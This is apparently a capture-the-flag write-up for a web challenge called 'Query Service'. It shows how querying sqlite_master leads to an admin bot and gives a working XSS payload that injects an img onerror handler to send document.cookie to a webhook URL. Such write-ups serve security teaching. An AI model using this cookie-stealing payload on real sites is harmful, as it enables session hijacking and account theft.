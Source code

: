# Query Service

Challenge Description:

> I've made a little website to access a SQL database. I even added a way to share your queries with other people! Just copy the link.

> Hint1: The contents of the database will give you some info on what to do next.

> Hint2: You can only change the query; can you inject arbitrary HTML with it?

## Analyzing the website

We are given a query input field where we can input sql statements.We can `sqlite_master` table to get the structure of the database and the tables.  

![sql schema](schema.PNG)

We see a notes table and we try seeing the contents of it as well.  

![notes table](notes.PNG)  

It gives us a link to a admin bot which has the flag as the cookie and this seems like a XSS challenge now.  

We can inject html into the field using the below command  

Command --> `select "<img src=x onerror=this.src='https://webhook_url/?cookie='+document.cookie;>"`

Giving the link of the submitted page to the admin bot gives us requests in the webhook page which we have opened.

![admin bot](admin_bot.PNG)

We get the flag the cookie section in the webhook request.  

![flag_output](flag.PNG)